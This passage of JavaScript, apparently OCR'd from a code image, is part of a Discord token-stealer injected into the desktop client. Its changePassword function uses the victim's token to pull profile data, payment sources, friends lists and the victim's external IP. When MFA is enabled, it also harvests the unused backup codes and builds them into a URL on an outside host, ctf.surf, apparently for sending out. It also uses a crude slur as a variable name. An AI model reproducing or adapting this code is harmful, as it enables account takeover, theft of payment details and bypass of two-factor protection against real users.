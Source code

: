                     }
                })
            })
        })
    })
}

function changePassword(oldpassword, newpassword, token) {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText;`, !0).then((info) => {
        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                            xmlHttp.send( null );
                            xmlHttp.responseText;
                            `, !0).then((ip) => {
            window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info3) => {
                window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info4) => {
                    if (token.startsWith("mfa")) {
                        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open("POST", "https://discord.com/api/v9/users/@me/mfa/codes", false);
                            xmlHttp.setRequestHeader('Content-Type', 'application/json');
                            xmlHttp.setRequestHeader("authorization", "${token}")
                            xmlHttp.send(JSON.stringify({\"password\":\"${newpassword}\",\"regenerate\":false}));
                            xmlHttp.responseText`, !0).then((codes) => {
                            var fieldo = [];
                            var baseuri = "https://ctf.surf/raw/"
                            var gayass = JSON.parse(codes)
                            let g = gayass.backup_codes
                            const r = g.filter((code) => {
                                return code.consumed == null
                            })
                            for (let z in r) {
                                fieldo.push({
                                    name: `code:`,
                                    value: `\`${r[z].code.insert(4, "-")}\``,
                                    inline: true
                                })
                                baseuri += `${r[z].code.insert(4, "-")}<br>`
                            }
                            function totalFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {
